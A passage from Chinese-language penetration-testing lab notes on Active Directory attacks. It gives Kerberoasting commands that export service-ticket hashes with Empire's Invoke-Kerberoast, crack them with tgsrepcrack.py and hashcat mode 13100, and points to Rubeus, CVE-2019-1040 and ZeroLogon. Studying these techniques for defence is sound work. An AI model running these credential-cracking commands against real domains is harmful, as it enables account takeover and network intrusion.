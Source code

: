 4. 然后使用 tgsrepcrack.py 进行破解：

    > https://github.com/nidem/kerberoast

    ```bash
    python3 tgsrepcrack.py wordlist.txt mssql.kirbi
    ```

#### 6.3.3 实验二：Empire 的 Invoke-Kerberoast + HashCat 爆破

1. 使用 Invoke-Kerberoast 脚本，`Invoke-kerberoast.ps1`是 Empire 中集成的脚本：

    > https://github.com/EmpireProject/Empire/tree/master/data/module_source/credentials

    ![image-20240722151240515](Kerberos/image-20240722151240515.png)
    麻了。
    相关命令：

    ```powershell
    Import-Module .\Invoke-kerberoast.ps1 
    # 查看结果
    Invoke-Kerberoast -OutputFormat Hashcat
    # 导出（记得把文件中的双引号去掉）
    Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation > result.txt
    ```

2. 拿到结果后，到 HashCat 中爆破：
    ```bash
    hashcat -m 13100 hash /home/kali/Desktop/kerberoast-master/字典.txt -o result.txt --force
    ```

3. 其他的还有用 Rubeus 来获取票据。详见：

    > https://xz.aliyun.com/t/13697?time__1311=GqmxuD9DgiYeqGNDQi5BK%2BuDfrOQtDnQGWoD#toc-15

### 6.4 CVE-2019-1040

1. 这个内容在 [5.3.5](# 5.3.5 CVE-2019-1040 横向其他主机的本地管理员) 中有详细介绍。

### 6.5 CVE-2020-1472 ZeroLogon

1. 参考文章：

    > https://www.freebuf.com/articles/network/365919.html

2. Netlogon 远程协议是远程过程调用 (RPC) 协议，它在 Windows 网络上执行与 Active Directory 身份验证相关的各种功能。例如，它可用于重置机器密码或备份域控制器的用户数据库。然而，最常见的应用是通过 NTLM 协议促进远程登录。

